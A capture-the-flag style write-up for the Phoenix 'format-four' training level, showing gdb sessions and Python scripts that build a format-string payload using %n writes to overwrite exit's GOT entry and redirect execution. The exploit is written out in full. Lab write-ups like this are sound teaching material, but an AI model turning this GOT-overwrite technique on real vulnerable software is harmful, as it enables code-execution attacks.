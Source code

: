 ```sh
gef➤  disass bounce
Dump of assembler code for function bounce:
   0x080484e5 <+0>:	push   ebp
   0x080484e6 <+1>:	mov    ebp,esp
   0x080484e8 <+3>:	sub    esp,0x8
   0x080484eb <+6>:	sub    esp,0xc
   0x080484ee <+9>:	push   DWORD PTR [ebp+0x8]
   0x080484f1 <+12>:	call   0x8048300 <printf@plt>
   0x080484f6 <+17>:	add    esp,0x10
   0x080484f9 <+20>:	sub    esp,0xc
   0x080484fc <+23>:	push   0x0
   0x080484fe <+25>:	call   0x8048330 <exit@plt>
End of assembler dump.
```

We see that exit@plt is located at 0x8048330.

```sh
gef➤  disass 0x8048330
Dump of assembler code for function exit@plt:
   0x08048330 <+0>:	jmp    DWORD PTR ds:0x80497e4
   0x08048336 <+6>:	push   0x18
   0x0804833b <+11>:	jmp    0x80482f0
End of assembler dump.
```

This is the function trampoline for exit. The program immediately jumps to the address stored at exit@got.plt, i.e. the global offset table entry for the libc function exit. By printing this entry, we find:

```sh
gef➤  x/1xw 0x80497e4
0x80497e4 <exit@got.plt>:	0xf7f7f543
```

We expect 0xf7f7f543 to belong to (the dynamically linked) libc, which we can confirm by listing the memory mappings:

```sh
gef➤  info proc mappings
process 1794
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /opt/phoenix/i486/format-four
	 0x8049000  0x804a000     0x1000        0x0 /opt/phoenix/i486/format-four
	0xf7f69000 0xf7f6b000     0x2000        0x0 [vvar]
	0xf7f6b000 0xf7f6d000     0x2000        0x0 [vdso]
	0xf7f6d000 0xf7ffa000    0x8d000        0x0 /opt/phoenix/i486-linux-musl/lib/libc.so
	0xf7ffa000 0xf7ffb000     0x1000    0x8c000 /opt/phoenix/i486-linux-musl/lib/libc.so
	0xf7ffb000 0xf7ffc000     0x1000    0x8d000 /opt/phoenix/i486-linux-musl/lib/libc.so
	0xf7ffc000 0xf7ffe000     0x2000        0x0
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
```

(The program must be running to be able to list the memory mappings.)

If we could overwrite the entry for exit in GOT at 0x80497e4, then when the exit function is called in bounce, the program would jump to whatever address we put in the GOT. We could redirect code execution to wherever we want, in particular, to the function "congratulations". First, let's find the address of congratulations:

```sh
gef➤  p congratulations
$1 = {<text variable, no debug info>} 0x8048503 <congratulations>
```

So we wish to write 0x8048503 (congratulations) into 0x80497e4 (exit@got.plt).

As with the previous level, the vulnerability is in the fact that we control the format string to the printf function in bounce. Let's print a few integers from the stack by using a bunch of %x conversion specifiers:

```sh
user@phoenix-amd64:~$ python -c 'print("AAAABBBB " + "%x "*14)' | /opt/phoenix/i486/format-four
Welcome to phoenix/format-four, brought to you by https://exploit.education
AAAABBBB 0 0 0 f7f81cf7 f7ffb000 ffffd618 804857d ffffc610 ffffc610 fff 0 41414141 42424242 20782520
```

We look for the A's and B's (hex 41 and 42), and conclude that the buffer starts at the 12th "argument".

The following Python script writes the address of the four individual bytes of the GOT address into the buffer, and then prints 11 arguments followed by a write to the 12th. If we use this script as input to format-four, we expect to see the number of characters _printed_ before %n to show up at exit@got.plt.

```python
# target GOT address: 0x80497e4
# value: 0x8048503

buff = ""
buff += "\xe4\x97\x04\x08"
buff += "\xe5\x97\x04\x08"
buff += "\xe6\x97\x04\x08"
buff += "\xe7\x97\x04\x08"

buff += "%x "*11

buff += "%n"

print(buff)
```

We set a breakpoint right after the call to printf and examine the GOT:

```sh
gef➤  break *0x080484f6
Breakpoint 4 at 0x80484f6
gef➤  r <<< $(python /home/user/exploit.py)
Starting program: /opt/phoenix/i486/format-four <<< $(python /home/user/exploit.py)
Welcome to phoenix/format-four, brought to you by https://exploit.education
0 0 0 f7f81cf7 f7ffb000 ffffd5d8 804857d ffffc5d0 ffffc5d0 fff 0

Breakpoint 4, 0x080484f6 in bounce ()
gef➤  x/wx 0x80497e4
0x80497e4 <exit@got.plt>:	0x00000051
```

So our python script prints 0x51 number of characters so far. By using the exact same procedure as in the previous level, we can come up with the following Python script:

```python
# target address: 0x80497e4
# value: 0x8048503

buff = ""
buff += "\xe4\x97\x04\x08"
buff += "\xe5\x97\x04\x08"
buff += "\xe6\x97\x04\x08"
buff += "\xe7\x97\x04\x08"

buff += "%x "*11

buff += "A"*int(0x103-0x51)
buff += "%n"

buff += "B"*int(0x185-0x103)
buff += "%n"

buff += "C"*int(0x204-0x185)
buff += "%n"

buff += "D"*int(0x208-0x204)
buff += "%n"

print(buff)
```

Using our script as input to format-four gives:

```sh
user@phoenix-amd64:~$ python exploit.py | /opt/phoenix/i486/format-four
Welcome to phoenix/format-four, brought to you by https://exploit.education
0 0 0 f7f81cf7 f7ffb000 ffffd618 804857d ffffc610 ffffc610 fff 0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCDDDD
Well done, you're redirected code execution!
Well done, you're redirected code execution!
Well done, you're redirected code execution!
Well done, you're redirected code execution!
Well done, you're redirected code execution!
```

(The program is now in an infinte loop, because we overwrote exit.)



